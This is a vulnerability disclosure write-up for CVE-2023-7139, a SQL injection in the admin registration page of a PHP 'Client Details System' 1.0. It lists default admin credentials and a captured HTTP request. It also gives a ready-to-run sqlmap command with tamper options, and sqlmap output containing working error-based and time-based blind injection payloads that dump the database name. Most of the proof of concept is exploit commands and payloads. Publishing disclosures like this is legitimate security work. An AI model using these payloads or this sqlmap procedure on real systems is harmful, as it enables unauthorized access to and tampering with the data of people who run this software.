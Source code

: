 # CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Exploit Title:** CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7139

## References: 
+ **CVE-2023-7139:** https://vuldb.com/?id.249142
+ https://www.cve.org/CVERecord?id=CVE-2023-7139
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7139

## Description:
Client Details System 1.0 allows SQL Injection via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Create Users and Register New User: "http://localhost/clientdetails/admin/regester.php"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/regester.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 812
Content-Type: multipart/form-data; boundary=3b3b38b05bde466ba84fe94108a576e4
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/regester.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'fname', 'lname', 'email' and 'contact' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p fname --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART fname ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x63477861 WHERE 3950=3950 AND (SELECT 4777 FROM(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(4777=4777,1))),0x71767a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x495a4858 WHERE 5047=5047 AND (SELECT 3063 FROM (SELECT(SLEEP(5)))fSuo))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--
---
[17:19:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:19:34] [INFO] fetching current database
[17:19:34] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/ae5ce05b-ed9f-4e6b-a137-4b19fdf07850)
